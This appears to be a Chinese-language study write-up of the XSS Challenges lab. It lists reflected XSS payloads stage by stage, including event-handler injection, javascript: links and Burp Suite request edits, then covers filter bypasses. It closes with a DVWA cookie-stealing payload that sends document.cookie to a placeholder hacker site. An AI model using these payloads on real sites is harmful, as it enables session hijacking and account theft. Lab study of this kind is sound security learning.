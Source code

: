 # XSS Challenges

## Stage #1

第一种直接在**<b>**标签中可以执行的js代码

**`<script>alert(document.domain);</script>`**

第二种尝试闭合**<b>**标签，在标签外面实现js代码的执行

1）有引号：**`"</b><script>alert(document.domain);</script>`**

2）无引号：**`</b><script>alert(document.domain);</script>`**


## Stage #2

第一种将**<input>**标签闭合，在标签外面执行js代码

**`"><script>alert(document.domain);</script>`**

第二种就是构造事件，当事件触发的时候就执行代码

1）有引号：**`" onmouseover="alert(document.domain)">`**

2）无引号：**`" onmouseover=alert(document.domain)>`**


## Stage #3

需要使用**<u>burpsuite</u>**抓包进行修改，然后再发送给服务器。

将捕获到的数据包最后一行修改为：

1）闭合标签：p1=tokyo&p2=Japan**`</b><script>alert(document.domain);</script>`**

2）直接执行：p1=tokyo&p2=Japan**`<script>alert(document.domain);</script>`**


## Stage #4

同样需要使用**<u>burpsuite</u>**抓包进行修改，然后再发送给服务器。

将捕获到的数据包最后一行修改为：

p1=tokyo&p2=Japan&p3=hackme**`"><script>alert(document.domain);</script>`**

因为需要将**<input>**标签闭合，同时该标签是隐藏式的，所以不能使用事件。


## Stage #5

检查元素，发现文本框输入的长度被限制为**15**，需要将长度修改，浏览器直接修改为**1500**

改前：**<input type="text" name="p1" maxlength="15" size="30" value="1">**

改后：**<input type="text" name="p1" maxlength="1500" size="30" value="1">**

payload:

第一种将**<input>**标签闭合，在标签外面执行js代码

**`"><script>alert(document.domain);</script>`**

第二种就是构造事件，当事件触发的时候就执行代码

1）有引号：**`" onmouseover="alert(document.domain)">`**

2）无引号：**`" onmouseover=alert(document.domain)>`**


## Stage #6

并不能使用闭合的方式，只能构造事件

payload:

**`" onmouseover="alert(document.domain)">`**

**`" onmouseover="alert(document.domain)`**


## Stage #7

并不能使用闭合的方式，只能构造事件

payload:

**`" onmouseover=alert(document.domain)`**


## Stage #8

这里将输入的数据，转换成链接即**<a>**标签，点击链接后跳转

payload:

**`javascript:alert(document.domain)`**


## Stage #9



手工方面基本方法如下：
1.普通**< script>**文本闭合
2.构造HTML事件闭合
3.**< a>**标签里定义超链接闭合
4.**CSS**特性闭合（IE低版本）
5.**Burpsuite**改包
6.各种过滤

过滤引号（取消引号）
过滤字符（双写绕过，大小写绕过，插入不可见字符、空格等等）
过滤<>（对<>编码绕过，十六进制或URL编码等等）



对于XSS漏洞的理解。

就是查看站点能否插入并执行js代码（核心思想）

首先目标站点存在XSS的漏洞，用户登录到目标站点后，访问一个包含恶意代码的链接，该链接返回携带的恶意代码，浏览器进行解析。在解析恶意代码的时候，就可以获取当前目标站点页面的cookie，并且发生页面跳转。

document.cookie只能获取当前目标站点的cookie,并不是浏览器所有的cookie。

目标站点存在xss漏洞，然后在当前站点的基础之上，运行了恶意代码。（之前以为恶意链接是随意的一个地址，后来发现获取cookie。doucument.cookie必须在当前站点之中才有效果，所以在当前站点的基础之上，在执行恶意代码）

例如：

http://192.168.0.4/dvwa/vulnerabilities/xss_r/ 该站点存在xss(反射性)。

我们构造的恶意链接也必

http://192.168.0.4/dvwa/vulnerabilities/xss_r/ ?name=<script>document.location='黑客站点?cookie='+document.cookie</script>

